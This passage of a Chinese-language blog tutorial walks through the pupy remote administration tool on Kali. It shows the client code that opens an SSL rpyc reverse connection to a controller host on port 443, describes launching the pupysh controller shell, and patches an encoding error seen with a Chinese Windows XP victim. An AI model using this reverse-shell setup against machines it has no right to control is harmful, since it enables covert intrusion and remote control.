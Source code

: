 ## 2.生成Kali上的客户端

Windows平台下如果有Python，rpyc，pupy也是类似的

![](http://ojyzyrhpd.bkt.clouddn.com/20151008/3.png)

{% highlight python %}
rhost,rport=None,None
        tab=HOST.rsplit(":",1)
        rhost=tab[0]
        if len(tab)==2:
            rport=int(tab[1])
        else:
            rport=443
        print "connecting to %s:%s"%(rhost,rport)
        conn=rpyc.ssl_connect(rhost, rport, service = ReverseSlaveService)
{% endhighlight %}

默认是443端口并以冒号分割，再使用rpyc模块进行ssl连接到控制端，循环等待并打印出连接信息

# 0x02 开始

---

直接运行pupy/pupy/pupysh.py便可以启用客户端（pupyshell），自然使用help或?查看帮助

![](http://ojyzyrhpd.bkt.clouddn.com/20151008/4.png)

在pupysh.py中主要是导入pupylib.PupyServer和pupylib.PupyCmd，分别实例化，并使用PupyCmd继承cmd.Cmd中的cmdloop()方法，来解析并执行命令

{% highlight python %}
...
pupyServer=pupylib.PupyServer.PupyServer()
...
pupyServer.start()
    pcmd=pupylib.PupyCmd.PupyCmd(pupyServer)
    while True:
        try:
            pcmd.cmdloop()
{% endhighlight %}

有趣的是在有中文版xp的受控端进入后，使用clients或sessions命令时均会出现如下错误

![](http://ojyzyrhpd.bkt.clouddn.com/20151008/error.png)

看是解码错误，便在pupylib/PupyCmd.py中在导入模块后再添加以下代码就okay啦

{% highlight python %}
if sys.getdefaultencoding()!='gbk':
  reload(sys)
  sys.setdefaultencoding('gbk')
{% endhighlight %}
